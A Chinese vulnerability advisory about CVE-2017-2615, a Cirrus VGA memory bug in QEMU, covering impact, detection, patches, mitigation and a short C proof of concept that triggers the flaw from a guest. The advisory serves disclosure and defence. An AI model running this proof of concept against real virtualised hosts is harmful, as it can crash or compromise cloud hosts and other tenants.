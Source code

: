 > 原文链接: https://www.anquanke.com//post/id/85535 


# 【漏洞预警】比“毒液”更恐怖！QEMU再曝高危漏洞(更新PoC)


                                阅读量   
                                **135038**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t015a656de8c0cb6ee6.jpg)](https://p4.ssl.qhimg.com/t015a656de8c0cb6ee6.jpg)

**漏洞描述**



近期QEMU官方修复了由360GearTeam研究员李强报告的一个严重漏洞CVE-2017-2615，这是QEMU的VGA设备Cirrus CLGD 54xx VGA中存在一个内存越界访问读写漏洞，可以造成宿主机层面的任意代码执行，Xen官方对此漏洞编号为XSA-208。

QEMU是全球流行的开源虚拟化软件。黑客攻击者一旦利用QEMU漏洞控制宿主机，除了利用宿主机强大的性能，可以进行比特币挖矿、密码暴力破解，还可窃取宿主机所有的虚拟机数据甚至进一步的云平台内部横向攻击，危害非常严重。

由于历史原因及软件兼容性的考虑，很长一段时间QEMU的默认VGA设备是Cirrus CLGD 54xx VGA。使用QEMU作为用户态模拟的虚拟化软件如KVM，Xen(HVM模式)的VGA也默认是Cirrus，所以该漏洞会影响到使用KVM及Xen的云平台。

经过实际的版本比对分析，国内主流的公有云平台受到此漏洞影响，应尽快执行升级修复，目前已经有相关受影响公有云平台启动了修复计划。

<br>

[![](https://p5.ssl.qhimg.com/t01f55db29d646f3f3b.png)](https://p5.ssl.qhimg.com/t01f55db29d646f3f3b.png)

<br>

**漏洞检测**

由于该漏洞存在于cirrus vga的模拟中，可以在guest中直接执行lspci（相关的软件包是pciutils）查看vga是否是cirrus，如果是则存在该漏洞，如下图：

[![](https://p5.ssl.qhimg.com/t01ee51a3105df68c05.png)](https://p5.ssl.qhimg.com/t01ee51a3105df68c05.png)

<br>

**修复方案**

经过360GearTeam安全团队的分析，建议参考以下任一策略进行修复。

1.	自行更新QEMU版本或更新对补丁进行修复

补丁链接： [https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html](https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html) 

[![](https://p2.ssl.qhimg.com/t01d541a6362d85dacc.png)](https://p2.ssl.qhimg.com/t01d541a6362d85dacc.png)

2.	修改启动虚拟机相关选项，不使用cirrus vga，改用std vga或者virtio vga

事实上，cirrus vga是90年代早期的设备，存在各种bug和安全问题。详细可以参考qemu vga的维护者Gerd Hoffmann的这篇文章qemu: using cirrus considered harmful([https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/](https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/) )。在qemu的upstream中，已经准备放弃cirrus显卡模拟。

<br>

**漏洞细节**

该漏洞存在于Cirrus VGA的bitblt操作中，bitblt是bit block transfer的缩写。在VGA模拟中，会分配一段内存vram作为VGA的显示区域，进行bitblt的拷贝操作时，会在这个内存区域中进行数据的拷贝与传输。

该漏洞即发生在向后拷贝的安全检查中，直接看补丁。

[![](https://p0.ssl.qhimg.com/t01eee49995cbc96820.png)](https://p0.ssl.qhimg.com/t01eee49995cbc96820.png)

在补丁中，pitch &lt; 0时，表示是从vram的后面往前面拷贝数据，min表示的是前面的起始位置。未打补丁之前，会允许读写vram的前面部分，这可能导致读host的信息，也可能导致代码执行，造成宿主机层面代码任意执行。

运行PoC（漏洞验证代码）之后，在宿主机可以看到QEMU处于一个不正常的状态。

[![](https://p0.ssl.qhimg.com/t019481ce4962103b46.png)](https://p0.ssl.qhimg.com/t019481ce4962103b46.png)

**更新PoC**

```
/*
 *  CVE-2017-2615 PoC 
 * 
 *  Qiang Li of the Gear Team, Qihoo 360 Inc.
 *  
 *  #gcc poc.c -o poc
 *  #./poc 
 *
*/
#include &lt;sys/io.h&gt;
#include &lt;stdio.h&gt;
 
void write_sr(int idx,int val)
`{`
      outb(idx,0x3c4);
      outb(val,0x3c5);
`}`
void write_gr(int idx,int val)
`{`
        outb(idx,0x3ce);
        outb(val,0x3cf);
`}`

int main()
`{`
        iopl(3);
        write_sr(0x07,1);
        write_gr(0x31,0x80);
        write_gr(0x26,0xff);
        write_gr(0x27,0xff);
        write_gr(0x24,1);
        write_gr(0x20,0xff);
        write_gr(0x21,0xff);
        write_gr(0x22,0x0);
        write_gr(0x23,0x0);
        write_gr(0x28,0);
        write_gr(0x29,0);
        write_gr(0x2a,0);
        write_gr(0x2c,0xff);
        write_gr(0x2d,0xff);
        write_gr(0x2e,0xff);
        write_gr(0x30,1);
        write_gr(0x2a,0);
        return 0;
`}`
```



**关于360GearTeam**

360 Gear Team是360公司一支专注于云安全与互联网核心开源组件安全研究的新锐团队，2016年获QEMU、Xen、VirtualBox、Docker等虚拟化软件致谢67次，以及OpenSSL、NTP、Firefox等重要开源项目致谢49次，成立不到一年就荣获了上百次漏洞报告致谢。团队在保卫360自身内部业务的同时，也在守护互联网的安全。
